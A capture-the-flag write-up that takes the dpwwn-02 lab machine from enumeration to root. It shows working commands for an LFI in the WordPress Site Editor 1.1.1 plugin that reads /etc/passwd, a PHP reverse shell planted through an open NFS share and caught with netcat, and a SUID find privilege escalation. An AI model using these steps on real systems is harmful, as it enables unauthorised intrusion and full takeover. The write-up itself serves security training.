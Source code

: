 # dpwwn: 2

## 1.Enumeration
The ip address is `10.10.10.10`, let's scan it:

```bash
root@kali: nmap -v -p80,111,443,2049,33607,34141,47967,48661 -sC -sV -oN nmap.out 10.10.10.10

Nmap scan report for 10.10.10.10
Host is up (0.00041s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.38 ((Ubuntu))
|_http-server-header: Apache/2.4.38 (Ubuntu)
|_http-title: dpwwn-02
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      45873/tcp6  mountd
|   100005  1,2,3      48661/tcp   mountd
|   100005  1,2,3      51220/udp   mountd
|   100005  1,2,3      52201/udp6  mountd
|   100021  1,3,4      34141/tcp   nlockmgr
|   100021  1,3,4      35639/tcp6  nlockmgr
|   100021  1,3,4      45437/udp6  nlockmgr
|   100021  1,3,4      55871/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
443/tcp   open  http     Apache httpd 2.4.38 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Ubuntu)
|_http-title: dpwwn-02
2049/tcp  open  nfs      3-4 (RPC #100003)
33607/tcp open  mountd   1-3 (RPC #100005)
34141/tcp open  nlockmgr 1-4 (RPC #100021)
47967/tcp open  mountd   1-3 (RPC #100005)
48661/tcp open  mountd   1-3 (RPC #100005)
```

i first start chekcing the nfs port and see the available shares:

```bash
root@kali: showmount -e 10.10.10.10

Export list for 10.10.10.10:
/home/dpwwn02 (everyone)
```

then mount it on the file system:

```bash
root@kali: mount -t nfs 10.10.10.10:/home/dpwwn02 /mnt/dpwwn
```

but it was empty and had nothing to check.

then i moved toward web on port 80 and start fuzzing the web application:

```bash
root@kali: gobuster dir --url http://10.10.10.10 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 237] [--> http://10.10.10.10/wordpress/]
```

then i used `wpscan` to check for users and plugins :

```bash
root@kali: wpscan --url http://10.10.10.10/wordpress -e u,p

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://10.10.10.10/wordpress/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.10/wordpress/wp-content/plugins/site-editor/readme.txt


[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

it did not show any vulnerability in the plugin, but i searched it in searchsploit for version 1.1.1 :

```bash
root@kali: searchsploit site editor

WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt
```

and it says sending request to this path will include a local file :

```bash
root@kali: curl http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:109::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
landscape:x:107:114::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:108:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
rootadmin:x:1000:1000:rootadmin:/home/rootadmin:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
_rpc:x:109:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:110:65534::/var/lib/nfs:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```

now that we have LFI and access to nfs, we just can upload a php reverse shell on `/home/dpwwn02` on target machine and execute it with LFI :

```bash
root@kali: cd /mnt/dpwwn
touch shell.php

# use pentest monkey php reverse shell
```

## 2.Gaining Shell

Now just send this request :

```bash
root@kali: curl http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/dpwwn02/shell.php
```

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.10] 54886
Linux dpwwn-02 5.0.0-23-generic #24-Ubuntu SMP Mon Jul 29 15:36:44 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:34:07 up  1:36,  0 users,  load average: 0.02, 0.06, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data
```

we just check for SUID binaries on the system:

```bash
$ find / -user root -perm /4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/find
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chfn
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
...
```

we see find here and can use it to get root account


## 3.Privilege Escalation

Just use the command below to get root :

```bash
$ find . -exec /bin/sh -p \; -quit

cd /root

cat dpwwn-02-FLAG.txt

Congratulation! You PWN this dpwwn-02. Hope you enjoy this boot to root CTF.
Thank you. 

46617323 
24337873 
4b4d6f6f 
72643234 
40323564 
4e443462 
36312a23 
26724a6d
```

This is how you can get root on this machine :)















